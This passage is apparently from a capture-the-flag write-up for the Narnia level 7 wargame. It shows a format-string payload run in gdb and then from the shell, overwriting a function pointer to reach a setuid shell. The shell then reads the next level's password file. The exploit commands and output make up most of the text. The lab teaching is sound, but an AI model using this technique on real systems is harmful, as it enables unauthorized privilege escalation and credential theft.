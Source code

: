 Still a little off. Adjusting the value again

```sourceCode
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0: 0xffffd610  0x00000080  0xffffd899  0x08048238
0xffffd600: 0xffffd668  0xf7ffda94  0x00000000  0x08048706
0xffffd610: 0x61616161  0xffffd60c  0x38343038  0x66383332
0xffffd620: 0x64666666  0x66383636  0x64666637  0x30343961
0xffffd630: 0x38343038  0x20306536  0x20202020  0x20202020
0xffffd640: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd650: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd660: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd670: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd680: 0x20202020  0x20202020  0x20202020  0x00202020
(gdb) c
Continuing.
Way to go!!!!$
```

And now we need to run it from the commandline to actually get a proper setuid shell

```sourceCode
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x1c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whomai
/bin/sh: 1: whomai: not found
$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
[password]
```
